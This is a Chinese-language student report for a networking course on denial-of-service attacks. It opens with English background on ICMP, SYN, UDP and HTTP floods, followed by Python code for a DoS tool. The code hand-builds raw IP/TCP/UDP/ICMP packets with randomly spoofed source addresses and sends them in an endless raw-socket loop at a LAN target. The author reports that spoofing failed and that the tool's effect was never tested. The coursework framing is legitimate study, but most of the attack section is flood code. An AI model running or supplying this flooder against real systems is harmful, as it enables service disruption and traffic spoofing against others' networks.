



# 2020-2021学年秋季学期《计算机网络》研讨
# DoS相关理论与实践

**Created Date**: 2020-10-25 19:00:44
**Last Upgraded Date**: 2020-10-28 12:14:53

<br/>


# 操作环境

>自用腾讯云服务器
>
>CentOS Linux release 8.0.1905 (Core) 
>
>macOS Catalina Version 10.15.5
>
>Python 3.7
>
>Pycharm Professional  2020.1.3

# 准备工作

## DoS相关知识

### DoS简介

In computing, a denial-of-service attack (DoS attack) is a cyber-attack in which the perpetrator seeks to make a machine or network resource unavailable to its intended users by temporarily or indefinitely disrupting services of a host connected to the Internet. Denial of service is typically accomplished by flooding the targeted machine or resource with superfluous requests in an attempt to overload systems and prevent some or all legitimate requests from being fulfilled.

### DoS种类

* Distributed DoS
* Application layer attacks
* Advanced persistent DoS
* Denial-of-service as a service

### [DoS攻击方式](https://en.wikipedia.org/wiki/Category:Denial-of-service_attacks)

#### [Internet Control Message Protocol (ICMP) flood](https://en.wikipedia.org/wiki/HTTP_Flood)

A smurf attack relies on misconfigured network devices that allow packets to be sent to all computer hosts on a particular network via the broadcast address of the network, rather than a specific machine. The attacker will send large numbers of IP packets with the source address faked to appear to be the address of the victim. Most devices on a network will, by default, respond to this by sending a reply to the source IP address. If the number of machines on the network that receive and respond to these packets is very large, the victim's computer will be flooded with traffic. This overloads the victim computer and can even make it unusable during such attack.

Ping flood is based on sending the victim an overwhelming number of ping packets, usually using the "ping" command from Unix-like hosts (the -t flag on Windows systems is much less capable of overwhelming a target, also the -l (size) flag does not allow sent packet size greater than 65500 in Windows). It is very simple to launch, the primary requirement being access to greater bandwidth than the victim.

Ping of death is based on sending the victim a malformed ping packet, which will lead to a system crash on a vulnerable system.

#### [(S)SYN flood](https://en.wikipedia.org/wiki/SYN_flood)

A SYN flood is a form of denial-of-service attack in which an attacker rapidly initiates a connection to a server without finalizing the connection. The server has to spend resources waiting for half-opened connections, which can consume enough resources to make the system unresponsive to legitimate traffic.

The packet that the attacker sends is the SYN packet, a part of TCP's three-way handshake used to establish a connection.

When a client attempts to start a TCP connection to a server, the client and server exchange a series of messages which normally runs like this:

The client requests a connection by sending a SYN (synchronize) message to the server.
The server acknowledges this request by sending SYN-ACK back to the client.
The client responds with an ACK, and the connection is established.
This is called the TCP three-way handshake, and is the foundation for every connection established using the TCP protocol.

A SYN flood attack works by not responding to the server with the expected ACK code. The malicious client can either simply not send the expected ACK, or by spoofing the source IP address in the SYN, cause the server to send the SYN-ACK to a falsified IP address – which will not send an ACK because it "knows" that it never sent a SYN.

#### [UDP flood attack](https://en.wikipedia.org/wiki/UDP_flood_attack)

A UDP flood attack is a volumetric denial-of-service (DoS) attack using the User Datagram Protocol (UDP), a sessionless/connectionless computer networking protocol.

Using UDP for denial-of-service attacks is not as straightforward as with the Transmission Control Protocol (TCP). However, a UDP flood attack can be initiated by sending a large number of UDP packets to random ports on a remote host. As a result, the distant host will:

* Check for the application listening at that port;
* See that no application listens at that port;
* Reply with an ICMP Destination Unreachable packet.

Thus, for a large number of UDP packets, the victimized system will be forced into sending many ICMP packets, eventually leading it to be unreachable by other clients. The attacker(s) may also spoof the IP address of the UDP packets, ensuring that the excessive ICMP return packets do not reach them, and anonymizing their network location(s). Most operating systems mitigate this part of the attack by limiting the rate at which ICMP responses are sent.

#### [HTTP flood](https://en.wikipedia.org/wiki/HTTP_Flood)

[Blocking HTTP Flood Attacks](https://blog.sucuri.net/2014/02/layer-7-ddos-blocking-http-flood-attacks.html)

In an HTTP flood, the HTTP clients such as web browser interact with an application or server to send HTTP requests. The request can be either “GET” or “POST”. The aim of the attack is when to compel the server to allocate as many resources as possible to serving the attack, thus denying legitimate users access to the server's resources.

##### GET flood
The GET request is used to retrieve static content like images. Typically this induces relatively low load on the server per request.

##### POST flood
POST requests are more likely to require the server to perform some kind of processing, such as looking up items in a database. Therefore, HTTP POST flood attacks typically impose higher load on the server per request.

# 实际操作

## 报文

#### 伪首部（TCP/UDP)

```python
def generate_header_pseudo(self, srcaddr, dstaddr, ptcl, tslen):
    pseudo_SourceAddr = socket.inet_aton(srcaddr)   # 32 bits 4 bytes
    pseudo_DestinAddr = socket.inet_aton(dstaddr)   # 32 bits 4 bytes
    print(socket.inet_ntoa(pseudo_SourceAddr), socket.inet_ntoa(pseudo_DestinAddr))
    pseudo_MustBeZero = 0   # 8 bits 1 bytes
    pseudo_Protocol = ptcl  # 8 bits 1 bytes
    pseudo_TransportLen = tslen
    # generate pseudo header
    pseudo_header = struct.pack("!4s4sBBH", pseudo_SourceAddr, pseudo_DestinAddr,
 pseudo_MustBeZero, pseudo_Protocol, pseudo_TransportLen)
    return pseudo_header
```

SourceAddr	32

DestinAddr	32

MustBeZero	8

Protocol	8

TransportLen	


#### TCP头

```python
def generate_header_tcp(self, srcaddr, dstaddr, srcport, dstport):
    tcp_SourcePort = srcport    # 16 bits 2 bytes
    tcp_DestinPort = dstport    # 16 bits 2 bytes
    tcp_SeqNumber = random.randint(0x10000000,0xffffffff)   # 32 bits 4 bytes
    tcp_AckNumber = 0   # 32 bits 4 bytes
    tcp_HeaderLen = (5 << 4 | 0)    # 4 bits .5 bytes
    tcp_Reserved = 0        # 3 bits
    # For convenience, split reserved parts into HeaderLen and Flag.
    # so that HeaderLen is 8 bits long and Flag is 8 bits long too.
    # 6 Flags URG/ACK/PSH/RST/SYN/FIN
    tcp_Flag = 2    # SYN; 9 bits
    tcp_Winsize = 0x2000    # 16 bits 2 bytes
    tcp_Checksum = 0        # 16 bits 2 bytes
    tcp_UrgentPointer = 0   # 16 bits 2 bytes
    # ! == Bigend Mode; B/H/L == 1/2/4 Bytes
    tcp_header = struct.pack("!HHLLBBHHH", tcp_SourcePort, tcp_DestinPort, tcp_SeqNumber, tcp_AckNumber, tcp_HeaderLen, tcp_Flag, tcp_Winsize, tcp_Checksum, tcp_UrgentPointer)
    # generate pseudo header
    protocol = socket.IPPROTO_TCP
    # header and data length(tcp has no data length)
    hndlen = len(tcp_header)
    # pseudo header
    psd_header = self.generate_header_pseudo(srcaddr, dstaddr, protocol, hndlen)
    # assemble the header for calculating checksum
    virtual_tcp_header = psd_header + tcp_header
    # call function calc_checksum() to calculate
    tcp_Checksum = self.calc_checksum(virtual_tcp_header)
    # re-assemble the header with correct checksum
    tcp_header = struct.pack("!HHLLBBHHH", tcp_SourcePort, tcp_DestinPort, tcp_SeqNumber, tcp_AckNumber, tcp_HeaderLen, tcp_Flag, tcp_Winsize, tcp_Checksum, tcp_UrgentPointer)
    return tcp_header
```

SourcePort	16

DestinPort	16

SeqNumber	32

AckNumber	32

HeaderLen	4

Reserved	3

Flag	1*9

Winsize	16

Checksum	16

UrgentPointer	16




#### UDP头

```python
def generate_header_udp(self, srcaddr, dstaddr, srcport, dstport, data):
    udp_SourcePort = srcport    # 16 bits 2 bytes
    udp_DestinPort = dstport    # 16 bits 2 bytes
    udp_Data = data
    udp_Len = 8 + len(udp_Data) # 16 bits 2 bytes
    udp_Checksum = 0            # 16 bits 2 bytes
    # udp header without checksum
    udp_header_without_checksum = struct.pack("!HHHH", udp_SourcePort, udp_DestinPort, udp_Len, udp_Checksum)
    # generate pseudo
    protocol = socket.IPPROTO_UDP
    # pseudo header
    psd_header = self.generate_header_pseudo(srcaddr, dstaddr, protocol, udp_Len)
    # assemble the header for calculating checksum
    virtual_udp_header = psd_header + udp_header_without_checksum + udp_Data.encode()
    udp_Checksum = self.calc_checksum(virtual_udp_header)
    # re-assemble the header with correct checksum
    udp_header = struct.pack("!HHHH", udp_SourcePort, udp_DestinPort, udp_Len, udp_Checksum)
    # Testing random srcip
    print(udp_SourcePort, udp_DestinPort, udp_Len, udp_Checksum)
    return udp_header
```

SourcePort	16

DestinPort	16

Len	16

Checksum	16

Data




#### ICMP头

```python
def generate_header_icmp(self):
    icmp_Type = 8   # 8 bits 1 bytes
    icmp_Code = 0   # 8 bits 1 bytes
    icmp_Checksum = 0   # 16 bits 2 bytes
    icmp_Idenfication = random.randint(1000,10000)  # 16 bits 2 bytes
    icmp_SeqNumber = random.randint(1000,10000)     # 16 bits 2 bytes
    icmp_Data = 'YijunStudioYijunStudioYijunStudioYijunStudioYijunStudioYijunStudio'
    icmp_DataLen = len(icmp_Data)
    # icmp header without checksum
    icmp_header_without_checksum = struct.pack(f"!BBHHH{icmp_DataLen}s", icmp_Type, icmp_Code, icmp_Checksum, icmp_Idenfication, icmp_SeqNumber, icmp_Data.encode())
    # calculating checksum(no pseudo header required)
    icmp_Checksum = self.calc_checksum(icmp_header_without_checksum)
    # re-assemble the header with correct checksum
    icmp_header = struct.pack(f"!BBHHH{icmp_DataLen}s", icmp_Type, icmp_Code, icmp_Checksum, icmp_Idenfication, icmp_SeqNumber, icmp_Data.encode())
    return icmp_header
```

Type	8

Code	8

Checksum	16

Idenfication	16

SeqNumber	16

Data




#### IP头

```python
def generate_header_ip(self, srcaddr, dstaddr, segmentsize, tsprtl):
    ip_Version_IHL = 0x45 # 4 bits + 4 bits
    ip_TOS = 0 # 8 bits
    ip_Length = 20 + segmentsize    # 16 bits
    ip_Identification = 1  # 16 bits
    ip_Flag_Offset = 0x4000    # 3 bits + 13 bits
    ip_TTL = 128     # 8 bits
    ip_Protocol = tsprtl   # 8 bits
    ip_HeaderChecksum = 0  # 16 bits
    ip_SourceAddr = socket.inet_aton(srcaddr)  # 32 bits
    ip_DestinAddr = socket.inet_aton(dstaddr)  # 32 bits
    # assemble the header for calculating checksum
    ip_header = struct.pack("!BBHHHBBh4s4s", ip_Version_IHL, ip_TOS, ip_Length, ip_Identification, ip_Flag_Offset, ip_TTL, ip_Protocol, ip_HeaderChecksum, ip_SourceAddr, ip_DestinAddr)
    print(f"packet is {binascii.b2a_hex(ip_header)}")
    # calculating checksum
    ip_HeaderChecksum = self.calc_checksum(ip_header)
    # re-assemble the header with correct checksum
    ip_header = struct.pack("!BBHHHBBH4s4s", ip_Version_IHL, ip_TOS, ip_Length, ip_Identification, ip_Flag_Offset, ip_TTL, ip_Protocol, ip_HeaderChecksum, ip_SourceAddr, ip_DestinAddr)
    print(f"IPv4 Header is {binascii.b2a_hex(ip_header)}")
    return ip_header
```

Version	4

HeaderLen-IHL	4

TOS	8

Length	16

Identification	16

Flag	3

Offset	13

TTL	8

Protocol	8

HeaderChecksum	16

SourceAddr	32

DestinAddr	32


## 校验和

```python
def calc_checksum(self, header):
    # init checksum with 0
    checksum = 0
    # traverse the header with step 2
    for i in range(0, len(header), 2):
        # get the first byte
        tmp = header[i]
        # left push first byte for 8, give lower 8 for the second byte
        # adding them together so that can get a work
        tmp = (tmp << 8) + header[i + 1]
        # adding up the words
        checksum += tmp
    # dealing with overflow
    checksum = (checksum & 0xffff) + (checksum >> 16)
    # re-dealing with overflow
    checksum += (checksum >> 16)
    # reverse code
    checksum = ~checksum & 0xffff
    return checksum
```

## 封包

#### 生成IP包

```python
def generate_ip_packet(self, trsprtl):
    # random generate source address
    srcaddr = f"{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}"
    # random generate source port
    srcport = random.randint(10000, 60000)
    # generate ip segment according to the setting transport layer protocol
    if trsprtl == socket.IPPROTO_TCP:
        tcp_header = self.generate_header_tcp(srcaddr, dstaddr, srcport, dstport)
        transport_segment = tcp_header
    elif trsprtl == socket.IPPROTO_UDP:
        # the longer data udp sent, the better effect attack has
        # icmp will echo the data， while udp won't
        # so icmp has better attack effect than udp
        udp_data = "YijunStudioYijunStudioYijunStudioYijunStudioYijunStudioYijunStudio"
        udp_header = self.generate_header_udp(srcaddr, dstaddr, srcport, dstport, udp_data)
        transport_segment = udp_header + udp_data.encode()
    elif trsprtl == socket.IPPROTO_ICMP:
        icmp_header = self.generate_header_icmp()
        transport_segment = icmp_header
    # the length of segment
    transport_segment_size = len(transport_segment)
    print(transport_segment_size)
    # call generate_header_ip to generate ip header
    ip_header = DoS_obj.generate_header_ip(srcaddr, dstaddr, transport_segment_size, trsprtl)
    # assemble ip header and segment into a whole ip packet
    dos_ip_packet = ip_header + transport_segment
    return dos_ip_packet
```

## 攻击

#### 进行DoS攻击

```python
def DoS_attack(self, dstaddr, dstport, dos_type):
    dos_type = dos_type.lower()
    if dos_type == 'syn':
        transport_layer_protocol = socket.IPPROTO_TCP
    elif dos_type == 'udp':
        transport_layer_protocol = socket.IPPROTO_UDP
    elif dos_type == 'icmp':
        transport_layer_protocol = socket.IPPROTO_ICMP
    # build socket
    dos_socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, transport_layer_protocol)
    dos_socket.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)    # error line
    # continous packet sending
    while True:
        ip_packet = self.generate_ip_packet(transport_layer_protocol)
        client = (dstaddr, dstport)
        dos_socket.sendto(ip_packet, client)
        print(ip_packet)
        print(f"Packet Send Success.")
```

#### 主函数

```python
if __name__=="__main__":
    # init Dos tools
    DoS_obj = DoS()
    # Target IP Address
    # dstaddr = "192.168.43.77"
    dstaddr = "192.168.43.21"
    # Target IP Port(useless when the type with icmp)
    dstport = 21
    # DoS type, which means which type of flood
    # options: syn, udp, icmp
    type = 'syn'
    # DO THE ATTACK
    DoS_obj.DoS_attack(dstaddr, dstport, type)
```

## 服务器抓包

```shell
tcpdump -i eth0 -w log.pcap
```

tcpdump命令抓包后，使用scp下载，后使用Wireshark本地查看。

```shell
scp root@MYIPADDR:/cncourse/20201028/log.pcap /Users/reneelin/Downloads
```

# 需要解决的问题

## 随机IP源地址无效

在测试中间包生成过程中，可以正常输出随机IP地址，但无法在真正发送的包中查看此伪装IP，只会显示本机在局域网攻击中的IP地址，无法起到伪装的作用。

不知是操作系统限制还是网络安全限制，或者是代码问题。

## UDP包长度问题

UDP包的长度进行了设置，为8个字节的Header加上数据长度，但是Wireshark获取的包的长度永远为1。

## 无法尝试是否真正能够进行初级DoS攻击

由于DoS攻击，特别是常用手段的DoS攻击已经被防御得比较健全，对于中小型服务器来说，是完全达不到攻击效果的，因而也没有合适的实验机可供使用，不知道实际效果如何。